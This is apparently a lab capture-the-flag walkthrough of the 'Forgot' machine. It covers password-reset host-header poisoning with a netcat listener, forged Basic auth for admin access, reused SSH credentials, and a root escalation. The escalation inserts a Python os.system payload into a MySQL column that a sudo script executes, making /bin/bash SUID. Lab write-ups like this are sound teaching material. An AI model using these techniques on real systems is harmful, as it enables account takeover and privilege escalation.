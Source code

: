 <h2>Target: 10.129.133.138  Forgot</h2><br>

<b>Initial Access:</b><br>
nmap -Pn 10.129.133.138 --min-rate=5000 -p- |grep open|awk -F '/' '{print $1}' |tr '\n' ',' <br>
Output shows open ports: 22,80

Enumerate these open ports further with nmap:<br>
nmap -Pn 10.129.133.138 -p 22,80 -sC -sV -oN nmap.forgot
 
![image](https://user-images.githubusercontent.com/93153300/201947302-bb5408a3-e94f-4938-b419-3fbc988b72e9.png)

Visiting port 80 shows a login page:
 
![image](https://user-images.githubusercontent.com/93153300/201947357-422a089f-c611-40d0-9b36-44490f44bc59.png)
 
Click on the ‘Forgot The Password’.  We get taken to a directory ‘/forgot’.  

![image](https://user-images.githubusercontent.com/93153300/201947385-9ebd23ba-f239-494d-bdd5-9e8f3da111eb.png)

If we put a non-existing username in the ‘username’ field and click on ‘reset’ then it responds ‘Invalid Username’:
 
![image](https://user-images.githubusercontent.com/93153300/201947422-928a6077-a01a-4e85-a408-e2eba7b867b3.png)

However, if we put an existing username then the response is different:

![image](https://user-images.githubusercontent.com/93153300/201947462-42c95476-4ea9-4cff-a5bc-835bc3ace555.png)

Based on the response being different, it seems to indicate that the username exists.  

Google search 'forgot password exploit' → found hacktricks page https://book.hacktricks.xyz/pentesting-web/reset-password:

Picture from hacktricks explaining this attack: 
 
![image](https://user-images.githubusercontent.com/93153300/201947505-3feaf0b0-d210-462f-982b-e1c96092f5da.png)

Based on the hacktricks page above, the way this attack works is that we capture the ‘/forgot’ request with burp suite, change the host in burp suite to our ip address, and then wait to capture the token on our netcat listener.  But before we do that, Hacktricks shows that we need a valid username to send this 'forgot password' request to.  Looking over the source code to http://10.129.71.235 we find a possible username ‘robert-dev-142522’: 
 
![image](https://user-images.githubusercontent.com/93153300/201947547-2bcf4456-add4-440d-b24a-f0188f279428.png)
  
Check if this is a valid username by putting the username into the ‘username’ field on http://10.129.71.235/forgot:
 
![image](https://user-images.githubusercontent.com/93153300/201947581-4df7cb0b-40f8-473b-8fc6-144e118fe396.png)

*[Machine required a few restarts at this point, so the target ip address changed a few times]

The response confirms the username is valid.  We are ready to run the attack:<br>
Step 1: Open a netcat listener: nc -lvnp 443 <br>
Step 2: In directory ‘/forgot’, enter ‘robert-dev-142522’ in the ‘username’ field, then click on ‘reset’ and capture the request in burp suite. <br>
Step 3: In the burp suite capture, change the ‘Host: target ip’ to ‘Host: our ip’, then click ‘forward’ in burp suite.  

![image](https://user-images.githubusercontent.com/93153300/201947616-c5299dff-e32e-4d92-b819-2c0fc3d2508e.png)

Step 4: Send the request again, but this time don't capture or change anything.  So in directory '/forgot' enter 'robert-dev-142522’ in the ‘username’ field, then click on ‘reset’.<br>
Step 5: Wait a little bit, and we get the token on our netcat listener: 
 
![image](https://user-images.githubusercontent.com/93153300/201947691-070f5c55-b868-4f04-96d2-3ee984272b9d.png)

Our netcat listener captured the token and shows a directory ‘/reset’.  Visit directory ‘/reset’:  
 
![image](https://user-images.githubusercontent.com/93153300/201947726-1b4b7020-294f-423d-b281-8288068d2384.png)

Enter something for ‘password’ and ‘confirm password’ (I will enter 'newpassword'). Click on ‘save’ then capture the request in burp suite.  Then paste in the url captured in our netcat of /reset?token=a0t44eXqT+vanMHyPlO1MyBkA2O/WYxYZYZxUlQQqZyxT1QmS0u10JcfYKtMWobVGuk7uvKnrHTV9pOmikV69w==.  Next, url encode all characters of the token.  Finally, forward the request in burp suite.  

Now that the password was changed, go back to the login page on http://10.129.133.138 and login with username ‘robert-dev-142522’ and the new password.  After login, we get directed to a directory ‘/home’.     
 
![image](https://user-images.githubusercontent.com/93153300/201947771-7660ea77-05f7-448f-9170-258acd8898b0.png)

The source code on this page shows a directory ‘/admin_tickets’.<br>
Visit directory '/admin_tickets' and capture the request in burp suite.  The burp suite capture shows an 'Authorization Basic' with a base64 encoded string. This base64 encoded string is just the username and password base64 encoded.  Decoding the current string shows 'robert-dev-142522:newpassword'.

Change the Authorization Basic string to be base64 of the string 'admin:newpassword'.  To do this use command: echo -n ‘admin:newpassword’ |base64 -w 0 <br>
Replace the current 'Authorization Basic' base64 encoded string we captured in burp suite with the new base64 encoded string we created for 'admin:newpassword'. Then forward the request in burp suite.  After doing this, we get a new page showing:
 
![image](https://user-images.githubusercontent.com/93153300/201947837-7abff5b7-a161-4d14-854b-35ea0c96f8f4.png)

This page shows credentials username ‘diego’ password ‘dCb#1!x0%gjq’.  Use these credentials to login as diego via ssh: ssh diego@10.129.72.7 → when prompted for password then enter the password.  

We now have shell as user diego.  We can get the flag at /home/diego/user.txt.
_________________________________________________________________________
<b>Privilege Escalation:</b><br>
File /home/diego/bot.py shows mysql credentials: 

![image](https://user-images.githubusercontent.com/93153300/201947871-ab312b76-bd73-4176-b5ef-73dc53430411.png)

File bot.py shows that mysql credentials are the same as diego’s credentials. <br>
Run command ‘sudo -l’:

![image](https://user-images.githubusercontent.com/93153300/201947920-6df2bd2f-f86d-419a-a08e-8d839356df4c.png)

‘sudo -l’ command shows we can run sudo on file ‘/opt/secuirty/ml_security.py’.  Open the file ‘/opt/secuirty/ml_security.py’.  There’s a lot to read, but an important part of this file is: 
 
![image](https://user-images.githubusercontent.com/93153300/201950496-2a805a43-3937-452c-bfb7-dbf7482b16c4.png)
  
This shows that it will log into mysql, use the database ‘app’, then take the value in column ‘reason’ from the table ‘escalate’ and execute that value.  Based on the fact that we can run this file with sudo privileges, if we can insert values in the column ‘reason’ then we can run commands.  Let’s check if we can access column ‘reason’, and if we have privileges to insert  values in it.  

Log into mysql: mysql -u diego -p → when prompted for password then enter the password.<br>
Show the databases with command: show databases;
 
![image](https://user-images.githubusercontent.com/93153300/201950525-cbc18e7c-e82a-4663-87ab-a9e942c94612.png)

Select database ‘app’ with command: use app;<br>
Look at the tables in ‘app’ with command: show tables;
 
![image](https://user-images.githubusercontent.com/93153300/201950553-9a7ab113-1654-4b2e-89e8-cc10435811a9.png)
 
Look at the columns of table ‘escalate’ with command: describe escalate; 

![image](https://user-images.githubusercontent.com/93153300/201950591-f49a19dd-f5e7-4979-b796-c9c902b45fed.png)
 
We have found the column ‘reason’ we were looking for.  Now, check if we have privileges to insert values into column ‘reason’ with command: show grants;
 
![image](https://user-images.githubusercontent.com/93153300/201950627-d6c4d587-102d-4a18-92f9-a60de1990761.png)

This shows that we have privileges to insert values.   We will use this to escalate to root. <br>
Insert into the column 'reason' a malicious command: INSERT INTO escalate VALUES ("1","1","1",'blob=exec("""\nimport os\nos.system("chmod +s /bin/bash")""")');

The command we inserted will change the permissions on the file '/bin/bash' to be a suid. <br>
Run command: sudo /opt/security/ml_security.py <br>
The sudo command changed the permissions on file ‘/bin/bash’  to be a suid.  Run ‘/bin/bash -p’.  <br>
We are now root.  We can get the flag in /root/root.txt
